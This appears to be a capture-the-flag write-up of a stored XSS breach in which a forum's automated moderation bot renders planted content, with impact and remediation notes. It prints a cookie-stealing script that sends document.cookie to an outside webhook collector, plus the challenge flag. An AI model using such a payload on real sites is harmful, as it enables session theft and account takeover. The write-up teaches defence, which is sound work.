



# Breach 03 — Stored XSS (against the moderation bot)

**OWASP:** A03:2021 – Injection (Cross-Site Scripting)
**Flag:** `FLAG{xss_st0r3d_1s_n0t_4_f34tur3_w1l}`

## What it is
Stored (persistent) XSS: attacker input is saved server-side and later rendered
**without output encoding** in another user's browser, executing arbitrary
JavaScript in *their* session.

## How the breach works
1. The forum advertises: *"Every new post is opened by our automated moderation
   bot for review, usually within a minute."* → a privileged automated client
   will render our content.

   
   

2. We plant a cookie-stealing script. It fires in the **bot's** context:

   ```html
   <script>fetch('https://webhook.site/<id>?c='+encodeURIComponent(document.cookie))</script>
   ```

   

3. The bot renders it and our collector receives its cookies — and the flag.

   

## Impact
Session theft / account takeover of any user (here, the moderation bot) who
views attacker content — the cookie is **not `HttpOnly`**, so `document.cookie`
returns the raw session token.

## How it could have been avoided (remediation)
- **Context-aware output encoding** of all user content on render (the primary fix).
- Set session cookies **`HttpOnly`**, `Secure`, `SameSite` — a script that runs
  still cannot read the cookie.
- Deploy a strict **Content-Security-Policy** to block inline/exfil scripts.
  Three independent layers; Darkly ships none.
